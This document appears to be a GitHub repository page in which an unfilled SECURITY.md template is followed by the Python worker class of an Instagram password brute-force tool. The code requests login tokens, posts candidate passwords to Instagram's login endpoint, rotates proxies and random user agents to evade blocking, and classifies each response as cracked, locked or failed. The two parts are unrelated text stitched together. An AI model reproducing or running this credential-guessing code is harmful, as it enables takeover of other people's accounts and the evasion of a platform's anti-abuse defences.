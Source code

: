 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| 5.1.x   | :white_check_mark: |
| 5.0.x   | :x:                |
| 4.0.x   | :white_check_mark: |
| < 4.0   | :x:                |

## Reporting a Vulnerability

Use this section to tell people how to report a vulnerability.

Tell them where to go, how often they can expect to get an update on a
reported vulnerability, what to expect if the vulnerability is accepted or
declined, etc.
# Date: 12/28/2018
# Author: Mohamed
# Description: Browser

import typing
from time import time
from random import choice

import requests
from datetime import datetime
from requests_html import HTMLSession
from .const import browser_data, response_codes, fetch_time, user_agents, debug


from lib import proxy


class Browser(object):

    account_exists = None

    def __init__(self, username, password, proxy: proxy.Proxy):
        self.proxy = proxy
        self.is_found = False
        self.is_active = True
        self.is_locked = False
        self.start_time = None
        self.username = username
        self.password = password
        self.is_attempted = False
        self.__browser = None

    @property
    def browser(self):
        if self.__browser is None:
            header = browser_data["header"]
            header["user-agent"] = choice(user_agents)

            session = HTMLSession()
            session.headers.update(header)

            session.proxies.update(self.proxy.addr)
            session.trust_env = False

            self.__browser = session
        return self.__browser

    def get_token(self):

        try:
            return self.browser.get(
                browser_data["home_url"],
                timeout=fetch_time,
            ).cookies.get_dict()["csrftoken"]
        except Exception as e:
            pass

    def post_data(self):
        enc_password = "#PWD_INSTAGRAM_BROWSER:0:{}:{}".format(
            int(datetime.now().timestamp()), self.password
        )

        data = {
            browser_data["username_field"]: self.username,
            browser_data["password_field"]: enc_password,
        }

        try:
            resp = self.browser.post(
                browser_data["login_url"],
                data=data,
                timeout=fetch_time,
            ).json()

            self.proxy.incr_success()
            return resp
        except:
            pass

    def check_exists(self, response):
        if "user" in response:
            Browser.account_exists = response["user"]

    def check_response(self, response):
        if "authenticated" in response:
            if response["authenticated"]:
                return response_codes["succeed"]

        if "message" in response:
            if response.get("checkpoint_url", None):
                return response_codes["succeed"]

            if response["status"] == "fail":
                return response_codes["locked"]

        if "errors" in response:
            return response_codes["locked"]

        return response_codes["failed"]

    def get_ip(self) -> typing.Optional[str]:
        url = "https://api.ipify.org/"

        try:
            r = self.browser.get(url, timeout=fetch_time)
            return r.text
        except Exception as e:
            pass

    def authenicate(self):
        response = self.post_data()
        resp = {"attempted": False, "accessed": False, "locked": False}

        if debug:
            ip = self.get_ip()
            print(f"pass: {self.password}[{ip}] => {response}")

        if response != None:
            resp["attempted"] = True
            resp_code = self.check_response(response)

            if resp_code == response_codes["locked"]:
                resp["locked"] = True

            if resp_code == response_codes["succeed"]:
                resp["accessed"] = True

            if Browser.account_exists == None:
                self.check_exists(response)

        return resp

    def attempt(self):
        self.start_time = time()
        token = self.get_token()

        if token:
            self.browser.headers.update({"x-csrftoken": token})
            resp = self.authenicate()

            if resp["attempted"]:
                self.is_attempted = True

                if not resp["locked"]:
                    if resp["accessed"]:
                        self.is_found = True
                else:
                    self.is_locked = True
        self.close()

    def close(self):
        self.browser.close()
        self.is_active = False
